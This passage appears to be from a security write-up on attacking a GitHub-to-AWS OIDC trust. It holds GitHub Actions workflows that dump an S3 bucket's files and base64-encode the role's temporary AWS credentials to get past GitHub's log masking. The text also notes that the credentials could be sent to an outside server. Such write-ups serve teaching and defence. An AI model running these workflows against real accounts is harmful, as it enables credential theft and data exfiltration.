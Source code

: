 ```yml
- name: Download All Files from Bucket
run: |
    echo "Downloading all files from the bucket ... "
    while read -r line; do
    # Extract the file name from the AWS CLI output
    file_name=$(echo $line | awk '{print $4}')
    if [ -n "$file_name" ]; then
    echo "Downloading $file_name ... "
    aws s3 cp s3://pac-github/$file_name $file_name
    echo "Contents of $file_name:"
    cat $file_name
    echo "--------------------"

    fi
    done < bucket_contents.txt
```

Now let's run the action and observe the result:
![image]({{ site.baseurl }}/assets/images/gen/content/cezar-gihub-to-aws-figure-013.png){:class="custom-image-class"}
In the logs, we can see that we were able to list the contents of the bucket and extract the secret.txt file, which contains sensitive information.

- Workflow 2: Extract Credentials from the Environment.

In this case, we want to extract the temporary credentials from the AWS role so we can use them in the AWS CLI and continue exploring the environment. GitHub Actions automatically filters AWS credentials to prevent them from being displayed directly in the logs. However, we can encode these credentials in Base64 to bypass the filter, or even send them directly to an external server under our control.
```yml
name: "AWS Credentials Extraction"

on:
workflow_dispatch:

permissions:
id-token: write
contents: read

jobs:
extract:
runs-on: ubuntu-latest
steps:
- name: Configure AWS Credentials
uses: aws-actions/configure-aws-credentials@v2
with:
aws-region: eu-west-1
role-to-assume: arn:aws: iam: : 058264466190 : role/pacsec_github
role-session-name: OIDCSession

- name: Extract AWS Credentials
run: |
    echo "Extracting AWS Credentials ... "
    echo "AWS_ACCESS_KEY_ID=$AWS_ACCESS_KEY_ID" | base64
    echo "AWS_SECRET_ACCESS_KEY=$AWS_SECRET_ACCESS_KEY" | base64
    echo "AWS_SESSION_TOKEN=$AWS_SESSION_TOKEN" | base64
```
